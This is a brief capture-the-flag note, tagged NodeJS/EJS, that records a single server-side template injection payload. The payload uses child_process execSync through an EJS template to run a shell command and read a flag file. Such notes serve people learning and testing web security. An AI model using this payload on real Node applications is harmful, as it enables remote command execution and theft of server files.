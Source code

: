 tags:: CTF/NodeJS/EJS

- # payload
	- `<%=global.process.mainModule.constructor._load('child_process').execSync("cat /flag")%>`
-
-